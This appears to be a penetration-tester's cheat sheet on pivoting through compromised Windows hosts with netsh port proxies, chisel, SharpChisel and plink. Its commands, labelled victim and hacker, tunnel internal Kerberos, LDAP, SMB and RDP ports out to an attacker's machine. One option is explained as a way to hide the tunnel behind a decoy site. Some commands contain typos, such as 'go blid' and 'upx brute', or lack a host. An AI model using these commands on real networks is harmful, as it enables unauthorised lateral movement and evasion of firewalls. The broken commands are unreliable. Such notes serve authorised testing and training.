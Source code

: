 # Pivoting in Windows

## Pivoting in Windows

We may be in a situation where we are in an operating system that has more than one network interface, this could be physical, virtual, or even a container environment. 

## Enumerating Network Interface Cards \(NICs\)

First, we must determine which subnets are on the operating system to do that we can enumerate the system network interface cards with DOS/Batch or PowerShell:

```text
ipconfig /all
Get-NetIPConfiguration
```

## Pivoting with netsh

[Netsh ](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts#:~:text=Netsh%20is%20a%20command%2Dline,in%20batch%20files%20or%20scripts.)is a command-line scripting utility that allows you to display or modify the network configuration of a computer that is currently running. Netsh commands can be run by typing commands at the netsh prompt and they can be used in batch files or scripts. Remote computers and the local computer can be configured by using netsh commands.

 We can use netsh to forward ports:

1. listenaddress – is a local IP address waiting for a connection.
2. listenport – local listening TCP port \(the connection is waited on it\).
3. connectaddress – is a local or remote IP address \(or DNS name\) to which the incoming connection will be redirected.
4. connectport – is a TCP port to which the connection from listenport is forwarded to.

```text
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```

## Pivoting with chisel

[Chisel ](https://github.com/jpillora/chisel)is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go \(golang\). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

Compiling chisel locally in our host:

```text
git clone https://github.com/jpillora/chisel
cd chisel
go blid -ldflags "-s -w" .
upx brute chisel
```

Let's say that we want to forward the ports 389 and 88 through port 8008 in our host, we can do that with [chisel](https://github.com/jpillora/chisel) by doing this:

```text
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
```

### Pivoting with SharpChisel

[SharpChisel](https://github.com/shantanu561993/SharpChisel) is a C\# wrapper for chisel:

```text
user@hacker$ ./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"
================================================================
server : run the Server Component of chisel 
-p 8080 : run server on port 8080
--key "private": use "private" string to seed the generation of a ECDSA public and private key pair
--auth "user:pass" : Creds required to connect to the server
--reverse:  Allow clients to specify reverse port forwarding remotes in addition to normal remotes.
--proxy https://www.google.com : Specifies another HTTP server to proxy requests to when chisel receives a normal HTTP request. Useful for hiding chisel in plain sight.

user@victim$ SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks
```

## Pivoting with plink

plink is an old networking tool that we can also use for forwarding ports:

```text
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445 
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```

